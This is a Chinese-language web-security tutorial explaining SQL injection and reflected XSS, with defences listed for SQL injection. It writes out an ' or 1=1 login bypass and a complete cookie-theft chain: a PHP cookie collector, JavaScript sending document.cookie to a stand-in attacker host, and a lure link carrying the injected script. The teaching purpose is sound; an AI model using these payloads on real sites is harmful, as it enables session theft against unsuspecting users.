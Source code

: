 # 常见web漏洞（Sql注入、XSS、CSRF）原理以及攻防总结
## Sql注入
所谓SQL注入式攻击，就是攻击者把SQL命令插入到Web表单的输入域或页面请求的查询字符串，欺骗服务器执行恶意的SQL命令。 攻击者通过在应用程序预先定义好的SQL语句结尾加上额外的SQL语句元素，欺骗数据库服务器执行非授权的查询,篡改命令。<br/>
**攻击原理**
``` python
假设的登录查询
SELECT * FROM  users  WHERE login = 'victor' AND password = '123
Sever端代码
String sql = "SELECT * FROM users WHERE login = '" + formusr + "' AND password = '" + formpwd + "'";
输入字符
formusr = ' or 1=1
formpwd = anything
实际的查询代码
SELECT * FROM users WHERE username = ' ' or 1=1  AND password = 'anything' 
```
**如何防范**<br/>
 - 服务端特殊字符过滤: <、>、* 、& 等
 - 使用ORM框架
 - 参数化Sql查询语句
 ## Xss攻击
 XSS 全称(Cross Site Scripting) 跨站脚本攻击， 是Web程序中最常见的漏洞。指攻击者在网页中嵌入客户端脚本(例如JavaScript), 当用户浏览此网页时，脚本就会在用户的浏览器上执行，从而达到攻击者的目的.  比如获取用户的Cookie，导航到恶意网站,携带木马等。<br/>
 **分类： 反射型和持久型**<br/>
 ### 反射型
 这种攻击不经过数据库，是从目标服务器通过错误信息、搜索结果等等方式“反射”回来的，攻击者通过电子邮件等方式将包含注入脚本的恶意链接发送给受害者，当受害者点击该链接时，注入脚本被传输到目标服务器上，然后服务器将注入脚本“反射”到受害者的浏览器上，从而在该浏览器上执行了这段脚本。<br/>
 **这种漏洞主要存在于与用户有交互的地方，如搜索框，如果后台没有对搜索的内容进行过滤，而原封不动的将搜索内容展示在dom中，则存在Xss漏洞**<br/>
 **详细攻击方式如下：**
 - 构建自己的黑客网站 如： hacker.qq.com
 - 该域名下有一 hack.php:
 ``` php
<?php 
$cookie = $_GET['q']; 
var_dump($cookie); 
$myFile = "cookie.txt"; 
file_put_contents($myFile, $cookie); 
?>
```
- 另外一 hack.js
``` js
var img = new Image();
img.src = "http://hacker.qq.com/hack.php?q="+document.cookie;
document.body.append(img);
```
- 构造一个连接来欺骗用户
``` html
<a href="http://xsstest.qq.com/search.php?q=%3Cscript+
src%3Dhttp%3A%2F%2Fhacker.qq.com%2Fhacker.js%3E%3C%2Fscript%3E&commend=
all&ssid=s5-e&search_type=item&atype=&filterFineness=&rr=
1&pcat=food2011&style=grid&cat=">点击就送998</a>
```
假设``` http://xsstest.qq.com ```就是存在xss漏洞的网站，search.php后的q参数 ,解码后为<br/>
``` <script src="http://hacker.qq.com/hacker.js"></script>``` <br/>
实际的作用是模拟用户在搜索框中输入<br/>
``` <script src="http://hacker.qq.com/hacker.js"></script> ```<br/>
后点击搜索。search.php未经处理的将其直接输入到页面， 黑客就可以获取用户在xsstest.qq.com网站的cookie。
